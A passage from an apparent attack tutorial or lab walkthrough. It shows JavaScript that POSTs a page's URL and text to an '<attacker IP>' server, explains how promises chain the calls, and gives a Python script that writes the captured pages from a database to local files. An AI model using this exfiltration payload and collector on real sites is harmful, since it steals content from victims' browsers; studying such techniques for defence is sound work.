 ```JavaScript
			      fetch("https://<attacker IP>/content", {
		        body: "url=" + encodeURIComponent(href) + "&content=" + encodeURIComponent(text),
		        headers: {
		        "Content-Type": "application/x-www-form-urlencoded"
	        },
		        method: "POST"
	      })
	    });
	})
}
```

A promise handles an asynchronous operations once they complete or fail.
Instead of blocking our entire thread as the code executes, a function passed into the promise, will be executed once the promise is complete.
This also allows to tie multiple promises, to ensure a method only executes after the promise completes.

In the code above, the promise returned by the fetch function, is handled by the "then" function, where the response is the passed argument.
The text from the response is obtained, and passed into another "then" function, where the text is sent to the API server, along with the source URL of the content.

## Dumping The Contents
We've carried out all 3 steps, however, to make things easier, we'll create one last python script, that dumps the contents into a file to fetch it easily.
The script will import and expand on our database script.

```python
##import necessary libs and modules##
import os
from db import create_connection, get_content, get_locations

##set the database##
database = r"sqlite.db"
##set the directory to place the files into##
contentDir = os.getcwd() + "/content"

##Create the write_to_file() function##
def write_to_file(url, content):
	##replace the prefix of url with null#
	fileName = url.replace('https://','')
	##if the filename does not end with .html, put the same##
	if not fileName.endswith(".html"):
		fileName = fileName + ".html"
	##store the content of each location into a file##
	fullname = os.path.join(contentDir, fileName)
	path, basename = os.path.split(fullname)
	##if a subdirectory from url does not exist locally, create a same local one##
	if not os.path.exists(path):
		os.makedirs(path)
	##write the content to it##
	with open(fullname, 'w') as f:
		f.write(content)

##Create the main section##
if __name__ == '__main__':
	##make the connection##
	conn = create_connection(database)
	##query all locations##
	locations = get_locations(conn)
	##for each location, query the content, and use write_to_file function##
	for l in locations:
		content = get_content(conn, l[0])
```